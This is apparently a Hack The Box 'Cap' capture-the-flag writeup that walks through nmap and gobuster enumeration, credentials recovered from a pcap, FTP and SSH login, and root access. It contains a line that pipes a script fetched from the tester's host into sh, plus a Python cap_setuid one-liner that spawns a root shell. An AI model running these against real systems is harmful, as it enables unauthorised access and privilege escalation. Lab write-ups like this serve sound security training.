


# Cap Writeup
<br>

## NMAP

```bash
nmap -sC -sV -p- cap.htb -oN cap_nmap
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-20 01:06 EDT
Nmap scan report for cap.htb (10.10.10.245)
Host is up (0.026s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    Gunicorn
|_http-server-header: gunicorn
|_http-title: Security Dashboard
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.67 seconds
```

FTP anonymous access is NOT allowed

```bash
┌──(netcur10s㉿lab-kali)-[~]
└─$ ftp cap.htb 
Connected to cap.htb.
220 (vsFTPd 3.0.3)
Name (cap.htb:netcur10s): anonymous
331 Please specify the password.
Password: 
530 Login incorrect.
ftp: Login failed
ftp> 

```

SSH password authentication allowed

```bash
┌──(netcur10s㉿lab-kali)-[~]
└─$ ssh root@cap.htb
The authenticity of host 'cap.htb (10.10.10.245)' can't be established.
ED25519 key fingerprint is SHA256:UDhIJpylePItP3qjtVVU+GnSyAZSr+mZKHzRoKcmLUI.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'cap.htb' (ED25519) to the list of known hosts.
root@cap.htb's password: 
```

## GoBuster

Ran Gobuster to see if any directories of interest

```bash
┌──(netcur10s㉿lab-kali)-[~/HTB/Cap]
└─$ gobuster dir -u cap.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt                                    
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://cap.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/data                 (Status: 302) [Size: 208] [--> http://cap.htb/]
/ip                   (Status: 200) [Size: 17465]
/netstat              (Status: 200) [Size: 32741]
/capture              (Status: 302) [Size: 222] [--> http://cap.htb/data/13]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```

Checked out the redirect address [http://cap.htb/data/13](http://cap.htb/data/13) which has a download button



Downloaded the file seems to be a pcap file 0.pcap

Searching through the pcap file for any good information

Able to find user credentials



Credentials found nathan:Buck3tH4TF0RM3!

## FTP(21)

Attempted to log into FTP under nathan and using this password Buck3tH4TF0RM3!

```bash
┌──(netcur10s㉿lab-kali)-[~]
└─$ ftp nathan@cap.htb
Connected to cap.htb.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||22860|)
150 Here comes the directory listing.
drwxr-xr-x    3 1001     1001         4096 Aug 21 00:21 snap
-r--------    1 1001     1001           33 Aug 20 19:14 user.txt
226 Directory send OK.
ftp> 
```

## SSH(22)

These credential also work using SSH

```bash
nathan@cap:~$ id
uid=1001(nathan) gid=1001(nathan) groups=1001(nathan)
nathan@cap:~$ 
```

Checking to see if curl & python are installed

```bash
nathan@cap:~$ which curl python3
/usr/bin/curl
/usr/bin/python3
```

Performing linpeas scan

```bash
nathan@cap:~$ curl http://10.10.14.61:80/linpeas.sh | sh
```

linpeas scanned and found a potential pkexec exploit and a Python binary vulnerability.

Checked GTFOBins for more information about the Python vulnerability.

```bash
Capabilities

If the binary has the Linux CAP_SETUID capability set or it is executed by another binary with the capability set, it can be used as a backdoor to maintain privileged access by manipulating its own process UID.

    cp $(which python) .
    sudo setcap cap_setuid+ep python

    ./python -c 'import os; os.setuid(0); os.system("/bin/sh")'

```

Attempted to execute > Successful!

```bash
nathan@cap:~$ /usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'
# whoami
root
# 
```

Changed to root directory 

Listed current directory with `ls` command and used `cat` to print out to screen

```bash
# cd /root
# ls
root.txt  snap
# cat root.txt
```
